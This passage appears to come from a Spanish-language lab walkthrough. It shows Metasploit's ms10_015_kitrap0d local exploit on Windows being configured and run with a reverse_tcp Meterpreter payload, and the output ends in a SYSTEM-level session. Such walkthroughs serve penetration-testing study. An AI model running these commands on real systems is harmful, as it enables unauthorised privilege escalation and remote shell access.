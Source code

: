 **Opciones del módulo** (`exploit/windows/local/ms10_015_kitrap0d`):

| Nombre  | Configuración Actual | Requerido | Descripción                            |
| ------- | -------------------- | --------- | -------------------------------------- |
| SESSION | 2                    | sí        | La sesión en la que ejecutar el módulo |

***

**Opciones del payload** (`windows/meterpreter/reverse_tcp`):

| Nombre   | Configuración Actual | Requerido | Descripción                                                  |
| -------- | -------------------- | --------- | ------------------------------------------------------------ |
| EXITFUNC | process              | sí        | Técnica de salida (Accepted: '', seh, thread, process, none) |
| LHOST    | tun0                 | sí        | La dirección de escucha (puede especificarse una interfaz)   |
| LPORT    | 1338                 | sí        | El puerto de escucha                                         |

***

**Objetivo del exploit**:

| Id | Nombre                           |
| -- | -------------------------------- |
| 0  | Windows 2K SP4 - Windows 7 (x86) |

***

```arduino
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338
LPORT => 1338
```

```arduino
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
```

```scss
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

```less
[*] Started reverse TCP handler on 10.10.14.5:1338 
[*] Launching notepad to host the exploit...
[+] Process 3552 launched.
[*] Reflectively injecting the exploit DLL into 3552...
[*] Injecting exploit into 3552 ...
[*] Exploit injected. Injecting payload into 3552...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:1338 -> 10.10.10.5:49162) at 2020-08-28 17:15:56 +0000
```

```arduino
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
